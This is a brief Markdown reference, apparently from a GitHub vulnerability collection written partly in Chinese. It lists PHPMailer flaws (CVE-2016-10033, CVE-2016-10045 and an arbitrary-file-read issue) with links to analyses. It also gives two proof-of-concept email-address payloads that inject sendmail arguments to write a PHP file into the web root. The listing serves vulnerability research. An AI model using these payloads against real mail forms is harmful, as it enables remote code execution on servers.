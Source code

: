 ## 5.2.17

### CVE-2016-10033 - PHPMailer < 5.2.18 Remote Code Execution

参考链接

* [PHPMailer 命令执行漏洞（CVE-2016-10033）分析](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)

Poc - from 头

```
a( -OQueueDirectory=/tmp -X/var/www/html/y.php )@qq.com
```

### CVE-2016-10045 - PHPMailer < 5.2.20 Remote Code Execution / escapeshell bypass

参考链接

* [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

Poc - from 头

```
a'( -OQueueDirectory=/tmp -X/var/www/html/x.php )@qq.com
```

## 5.2.21

### attachment 任意文件读取特性 

影响版本

* <= 5.2.21

参考链接

* [PHPMailer任意文件读取漏洞分析（CVE-2017-5223）](http://www.freebuf.com/vuls/124820.html)

